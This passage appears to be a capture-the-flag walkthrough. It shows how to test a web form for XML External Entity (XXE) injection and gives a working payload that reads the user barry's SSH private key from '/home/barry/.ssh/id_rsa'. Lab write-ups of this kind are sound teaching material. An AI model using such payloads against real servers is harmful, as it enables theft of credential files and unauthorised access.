 - Down the rabbit hole we go :D 

- Anyway, the HTML comment is still relevant, as barry seems to be an existing user on the server. I checked and it doesn't allow for password authentication, so we must find the private key of barry.

- However, after further analysis of the JS function found in the source code, I noticed that in case we press `submit` without any text in the box, we're asked to `Insert XML code`.

- Let's check to see if this form is vulnerable to `XXE` - XML External Entity injection.

- The general XML document that can read files from the system should look similar to the structure below.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE <element_name> [<!ENTITY <entity_name> SYSTEM 'file:///path/to/file'>]>
<root> 
	<element_name_used_above>
		&entity_name_used_above;
	</element_name_used_above> 
</root>
```

- If we type just a character and submit, we're shown the preview of the comment. 

```
Name:

Author :

Comment :
```

- It has three elements: `name`, `author` and `comment`.

- We assume that the private key of barry is in the `.ssh` directory under his home.

- The payload will be something like this

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [<!ENTITY whatever SYSTEM 'file:///home/barry/.ssh/id_rsa'>]>
<root> 
	<name>
		&whatever;
	</name> 
</root>
```

- The entity name is not important. It can be whatever you want, but make sure to have one of the three elements as .. well, element name. 

- In the scenario above, the content of the file will be shown in the `name` cell. If  you want, for whatever reason, to show the output under `author`, all you'd have to change is `name` to `author` after `<!DOCTYPE`.

- For a better output, we can switch to source code.
